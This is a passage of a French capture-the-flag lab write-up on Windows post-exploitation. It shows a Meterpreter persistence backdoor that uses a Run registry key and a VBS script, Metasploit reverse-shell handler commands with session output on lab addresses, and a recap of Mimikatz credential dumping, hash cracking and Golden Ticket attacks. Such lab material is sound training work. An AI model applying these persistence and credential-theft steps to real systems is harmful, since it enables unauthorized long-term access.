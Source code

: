 > Le module Persistence crée une backdoor permanente qui survit aux redémarrages système en s'ajoutant aux clés de registre de démarrage automatique.
{: .prompt-info }

**Fonctionnement de la persistance :**

- Un script VBS est créé dans le dossier Temp de l'utilisateur
- Une clé de registre de démarrage automatique est ajoutée (`HKCU\Software\Microsoft\Windows\CurrentVersion\Run`)
- À chaque démarrage système, le script VBS s'exécute automatiquement
- Le payload Meterpreter se connecte au handler toutes les 10 secondes (configurable)

**Récupération de l'accès après redémarrage :**

Si le système redémarre ou si la session est perdue, il suffit de relancer le handler multi/handler avec les mêmes paramètres pour récupérer automatiquement une nouvelle session Meterpreter.

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.43.133
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.43.133:4444
[*] Sending stage (175686 bytes) to 10.10.52.67
[*] Meterpreter session 2 opened (10.10.43.133:4444 -> 10.10.52.67:52145)

meterpreter >
```

> La backdoor de persistance garantit un accès permanent au système compromis, même après des redémarrages ou des mises à jour système, tant que le mécanisme de persistance n'est pas détecté et supprimé.
{: .prompt-warning }

---

### Task 8 - Conclusion

#### Récapitulatif des compétences acquises

Félicitations ! Vous avez complété cette room sur les bases de la post-exploitation. Vous maîtrisez maintenant :

**Énumération Active Directory :**
- Utilisation de PowerView pour énumérer les utilisateurs, groupes et partages
- Cartographie réseau avec Bloodhound et SharpHound
- Identification des comptes à privilèges et des cibles Kerberoastables

**Extraction de credentials :**
- Dump de hashes NTLM avec Mimikatz
- Cracking de hashes avec Hashcat
- Compréhension de la structure des hashes Windows

**Attaques avancées :**
- Création de Golden Tickets avec Mimikatz
- Exploitation du compte krbtgt pour un accès domaine complet
- Élévation de privilèges et mouvement latéral
